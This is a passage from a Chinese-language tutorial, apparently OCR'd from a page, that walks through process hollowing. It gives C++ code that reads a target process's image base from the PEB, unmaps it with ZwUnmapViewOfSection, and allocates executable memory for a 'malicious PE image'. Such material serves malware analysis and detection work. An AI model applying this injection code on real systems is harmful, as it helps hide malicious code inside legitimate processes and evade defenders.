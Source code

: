 - **步骤 3: 镂空目标进程内存**
    
    1. 获取目标进程主线程的上下文，以确定其映像基址。CPU 寄存器 EBX (在32位下) 通常指向进程环境块 (PEB)，PEB 中特定偏移量 (通常是 `+0x08`) 处存放着进程的映像基址。使用 `GetThreadContext` 获取寄存器值，然后用 `ReadProcessMemory` 读取基址。
        
        C++
        
        ```
        CONTEXT c; // 假设已声明
        c.ContextFlags = CONTEXT_FULL; // 或 CONTEXT_INTEGER 获取寄存器 (原文为 CONTEXT_INTEGER)
        if (!GetThreadContext(target_pi->hThread, &c)) { /* 错误处理 */ }
        
        PVOID pTargetImageBaseAddress;
        // 在32位下，c.Ebx 指向 PEB，ImageBaseOffset 为 0x8
        // 在64位下，c.Rdx 指向 PEB，ImageBaseOffset 为 0x10
        // 这里以32位为例，且假设 c.Ebx 确实是 PEB 地址
        if (!ReadProcessMemory(
            target_pi->hProcess,        // 目标进程句柄
            (PVOID)(c.Ebx + 0x08),      // 指向PEB中ImageBase字段的指针 (32位)
            &pTargetImageBaseAddress,   // 用于存储读取到的目标映像基址
            sizeof(PVOID),              // 要读取的字节数 (指针大小)
            NULL                        // 接收实际读取字节数 (可选)
        )) { /* 错误处理 */ }
        ```
        
    2. 使用 `ZwUnmapViewOfSection` (或 `NtUnmapViewOfSection`) 从 ntdll.dll 中动态获取并调用，以解除映射目标进程原始基址处的内存区域。
        
        C++
        
        ```
        typedef NTSTATUS (WINAPI *PFN_ZWUNMAPVIEWOFSECTION)(HANDLE, PVOID);
        HMODULE hNtdllBase = GetModuleHandleA("ntdll.dll");
        PFN_ZWUNMAPVIEWOFSECTION pfnZwUnmapViewOfSection = (PFN_ZWUNMAPVIEWOFSECTION)GetProcAddress(
            hNtdllBase,
            "ZwUnmapViewOfSection"
        );
        // if (pfnZwUnmapViewOfSection == NULL) { /* 错误处理 */ }
        
        NTSTATUS dwResult = pfnZwUnmapViewOfSection(
            target_pi->hProcess,        // 目标进程句柄
            pTargetImageBaseAddress     // 要解除映射的基址 (即目标进程的原始映像基址)
        );
        // if (!NT_SUCCESS(dwResult)) { /* 错误处理 */ }
        ```
        
- 步骤 4: 为恶意代码分配内存 (VirtualAllocEx)
    
    在目标进程中，于其原始映像基址 (或期望的基址) 处，为恶意 PE 镜像分配新的内存。所需内存大小从恶意 PE 镜像的 OptionalHeader.SizeOfImage 字段获取。
    
    C++
    
    ```
    PIMAGE_DOS_HEADER pDOSHeader = (PIMAGE_DOS_HEADER)pMaliciousImage;
    PIMAGE_NT_HEADERS pNTHeaders = (PIMAGE_NT_HEADERS)((LPBYTE)pMaliciousImage + pDOSHeader->e_lfanew);
    DWORD sizeOfMaliciousImage = pNTHeaders->OptionalHeader.SizeOfImage;
    
    PVOID pHollowAddress = VirtualAllocEx(
        target_pi->hProcess,        // 目标进程句柄
        pTargetImageBaseAddress,    // 期望的分配基址 (通常是目标进程的原始基址)
        sizeOfMaliciousImage,       // 要分配的大小 (恶意PE的SizeOfImage)
        MEM_COMMIT | MEM_RESERVE,   // 分配类型 (原文 0x3000)
        PAGE_EXECUTE_READWRITE      // 内存保护 (原文 0x40)
    );
    // if (pHollowAddress == NULL) { /* 可能是因为该地址已被占用或参数无效，错误处理 */ }
    // 如果 pHollowAddress != pTargetImageBaseAddress 且恶意PE有重定位表，可能需要处理重定位
    ```
    